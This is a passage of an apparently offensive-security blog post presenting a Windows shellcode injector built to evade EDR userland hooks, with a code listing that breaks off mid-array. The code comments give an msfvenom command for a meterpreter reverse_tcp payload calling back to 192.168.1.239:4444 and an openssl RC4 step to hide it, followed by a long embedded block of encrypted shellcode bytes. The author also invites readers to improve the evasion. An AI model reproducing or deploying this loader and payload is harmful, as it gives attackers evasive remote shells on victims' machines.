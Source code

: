The full source code for this injector can be found on my [github](https://github.com/bats3c/DefensiveInjector). Here is a snippet of the main code, it includes the `LdrLoadDll` hook and syscalls. It is worth noting that this code will only defend against userland hooks, it will trigger a Sysmon Event ID 8 as well as other things so I will leave it as a challenge for the reader to adapt this code and make it better. [This](https://github.com/bats3c/shad0w/blob/master/beacon/src/loader.c) could be of use to you if you decide to do that.

```
#include <stdio.h>
#include <windows.h>
#include <wincrypt.h>
#include <tlhelp32.h>
#include <ntdef.h>
#include <winternl.h>

#include "main.h"

/****************************************************************************************************/
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin
// cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin
// xxd -i encmeter.bin
unsigned char encmeter_bin[] = {
  0x6e, 0xdc, 0x5b, 0x2a, 0x59, 0xba, 0x87, 0x64, 0x3e, 0x1d, 0x15, 0xcc,
  0x55, 0x5e, 0x70, 0xdd, 0xf3, 0x57, 0x98, 0x96, 0x2a, 0xd0, 0x0f, 0xe5,
  0x5a, 0xcd, 0xab, 0x28, 0xb3, 0xda, 0xff, 0x70, 0xd5, 0x48, 0x25, 0x7f,
  0xaf, 0x87, 0x0b, 0xd4, 0xd5, 0x89, 0x44, 0xa8, 0x47, 0xc1, 0x0d, 0xce,
  0x17, 0xf3, 0x64, 0x72, 0x70, 0xd4, 0xd8, 0x5f, 0xfe, 0x66, 0xe1, 0x20,
  0x21, 0x89, 0x43, 0xf2, 0xd9, 0x95, 0x17, 0x4e, 0x96, 0xe7, 0x9a, 0xab,
  0xa8, 0x14, 0xc9, 0x85, 0x4c, 0x23, 0x5d, 0x8a, 0x24, 0xef, 0x5e, 0x3b,
  0xe7, 0x14, 0x74, 0x65, 0x6a, 0x20, 0xe2, 0x03, 0x89, 0x84, 0xfa, 0x9d,
  0xf1, 0x97, 0x46, 0xc9, 0x50, 0xc1, 0x07, 0xf6, 0x49, 0xd1, 0x2d, 0x35,
  0x45, 0x66, 0x06, 0xf7, 0x49, 0x9b, 0xc8, 0x0b, 0x0e, 0xc1, 0x3b, 0x71,
  0x7c, 0xef, 0xbe, 0x94, 0xd5, 0x81, 0xbe, 0x5f, 0x81, 0x6c, 0x7f, 0x18,
  0x1e, 0xd7, 0x3f, 0x93, 0x0f, 0x7e, 0x09, 0x2f, 0x53, 0x6c, 0x04, 0x34,
  0x77, 0x61, 0x54, 0x56, 0x8f, 0x43, 0xd7, 0x5b, 0xc3, 0x29, 0x1e, 0x16,
  0xda, 0xf3, 0x58, 0x83, 0x8c, 0xd7, 0xf2, 0x3d, 0x4c, 0xb4, 0x3d, 0xcb,
  0x24, 0xfa, 0x84, 0x00, 0x58, 0x28, 0x96, 0xe0, 0x1b, 0x57, 0x03, 0x2e,
  0xc6, 0xc5, 0x22, 0x31, 0xc1, 0x1d, 0xe4, 0xd5, 0x8a, 0x4c, 0x79, 0x5f,
  0x83, 0x05, 0xe3, 0x73, 0x8c, 0x11, 0x9e, 0x57, 0xcf, 0x5f, 0xa9, 0x7b,
  0x26, 0xfa, 0xc3, 0xad, 0xd1, 0x2c, 0x57, 0x32, 0xbe, 0x3a, 0x41, 0x18,
  0x55, 0x87, 0x74, 0xc0, 0xbf, 0x26, 0xd8, 0x01, 0xf0, 0x15, 0xdd, 0x2b,
  0xe6, 0x35, 0x7a, 0xcc, 0x18, 0x83, 0xf4, 0xdd, 0xc9, 0x75, 0x68, 0x12,
  0x6d, 0x19, 0x10, 0x2b, 0xb6, 0x89, 0x20, 0x35, 0xd4, 0x81, 0x36, 0xe2,
  0x4d, 0xf0, 0xfb, 0x1d, 0x0f, 0xfa, 0xb6, 0x9e, 0x74, 0x2d, 0x51, 0x33,
  0x79, 0xa8, 0xc1, 0xda, 0x55, 0x14, 0x87, 0x44, 0xc2, 0x19, 0x28, 0x28,
  0x8a, 0xe9, 0x24, 0x01, 0x99, 0xae, 0xa4, 0xa1, 0xdf, 0xb1, 0xcf, 0x87,
  0x54, 0x93, 0x51, 0xcc, 0xb7, 0x02, 0x4c, 0x2e, 0xeb, 0xdc, 0x7c, 0x72,
  0xbe, 0x4b, 0x2c, 0xaa, 0x34, 0x44, 0x6f, 0xbb, 0xc5, 0x79, 0x20, 0xb9,
  0x67, 0x52, 0x1e, 0x28, 0x71, 0x40, 0x72, 0xa6, 0x5b, 0x4f, 0xa0, 0xc2,
  0x1e, 0x2e, 0x6f, 0x48, 0x16, 0x1a, 0x3a, 0xfd, 0xb5, 0x9b, 0x84, 0x3c,
  0x9c, 0x4c, 0x61, 0x63, 0xe0, 0x34, 0x57, 0x24, 0xab, 0x6c, 0x3e, 0xb3,
  0x8a, 0x02, 0x74, 0x59, 0x27, 0x20, 0x0f, 0xd5, 0x8e, 0x1e, 0x5c, 0x43,
  0x61, 0xf0, 0x4d, 0x5b, 0xb3, 0x00, 0xea, 0x18, 0xb2, 0xef, 0x43, 0x94,
  0xd8, 0x5d, 0x5d, 0x4b, 0xc6, 0xd9, 0xed, 0x2f, 0xca, 0xed, 0xe1, 0x79,
  0x0c, 0xa1, 0x46, 0x77, 0x78, 0x15, 0x87, 0x9d, 0xea, 0x9e, 0xa6, 0x8b,
  0x10, 0x29, 0x49, 0x28, 0xca, 0xc1, 0x07, 0x19, 0x9b, 0x54, 0xb2, 0x1b,
  0xd2, 0x9b, 0xbc, 0x7d, 0x9c, 0x14, 0x97, 0x43, 0x7b, 0x33, 0x41, 0xd3,
  0x26, 0x7f, 0xe9, 0xf1, 0xbf, 0xfb, 0xd8, 0xc5, 0x96, 0x19, 0x5e, 0x65,
  0xa3, 0xb1, 0x18, 0x44, 0x16, 0xc1, 0x63, 0x72, 0xc8, 0x53, 0xa5, 0x74,
  0xee, 0x2c, 0x7c, 0xe2, 0x0f, 0xe4, 0x11, 0x91, 0x4d, 0xe3, 0xa4, 0xa6,
  0xd9, 0xf0, 0x59, 0x97, 0xbb, 0x86, 0x1e, 0xc4, 0x68, 0x64, 0x4b, 0x45,
  0x00, 0xf0, 0x78, 0xac, 0x98, 0x21, 0xfe, 0xd3, 0xdd, 0xe8, 0xa3, 0xca,
```
